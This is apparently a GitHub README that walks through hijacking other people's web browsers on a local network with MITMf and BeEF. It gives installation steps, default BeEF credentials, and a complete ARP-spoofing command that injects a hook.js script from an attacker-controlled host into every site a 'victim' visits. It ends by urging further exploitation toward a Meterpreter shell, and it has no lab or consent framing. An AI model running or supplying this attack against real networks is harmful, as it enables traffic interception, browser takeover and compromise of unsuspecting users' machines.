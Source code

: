 # Hooking-Web-Browsers-with-MITMf-and-BeEF

Requirements
  1. MITMf
      To install:
        > apt-get install mitmf
          or
        > git clone https://github.com/byt3bl33d3r/MITMf
  
  2. BeEF 
  
Step 1
  - Start BeEF
  - Open a new terminal and type cd /usr/share/beef-xss/
  - If BeEF is installed, go ahead and run it by typing ./beef
  - If you were able to see the Hook URL remember or copy the URL provided.

Step 2
  - Open the Panel. Now you can open the BeEF web panel with the UI URL provided from step 1. 
    Once presented with the login page, you should just be able to get in with the default credentials "beef" for both the username and       password.
 
 Step 3
  - Inject the Hook.js Script.
    Open up a new terminal. We'll be using MITMf to inject the hooking script. 
    Use mitmf --spoof --arp -i <interface> --gateway <router IP> --target <target IP> --inject --js-url <hook.js URL> as the format.
      --spoof loads the spoof plugin
      --arp redirects ARP packets
      -i specifies the interface to inject packets on
      --gateway sets the IP of your router to redirect through
      --target sets the target IP to inject the hook.js script
      --inject loads the inject function
      --js-url specifies the JavaScript code to inject
  
    Run the command and MITMf should start giving you some output. 
    For example:
     root@kali:~# mitmf --spoof --arp -i wlan0 --gateway 10.10.10.1 --target 10.10.10.50 --inject --js-url http://10.10.10.40:3000/hook.js
    
    If successful, MITMf will let us know that it successfully injected the hook.js script into the websites that the target visited.
 
 Step 4
  - Back to BeEF.
    If we check our BeEF panel, you will see the hooked computer right on the Online Browsers tab.
      P.S: You don't have to worry about the victim having to stay on the webpage for you to have control of it. MITMf will continue                injecting the script into every website the victim visits, so you'll never lose control!
    From here, you can continue trying to exploit the victim machine, and maybe get a Meterpreter prompt!
    
NOTE: This only works with non-HSTS websites. You could try the --hsts function, but it might make things too slow and/or glitchy.
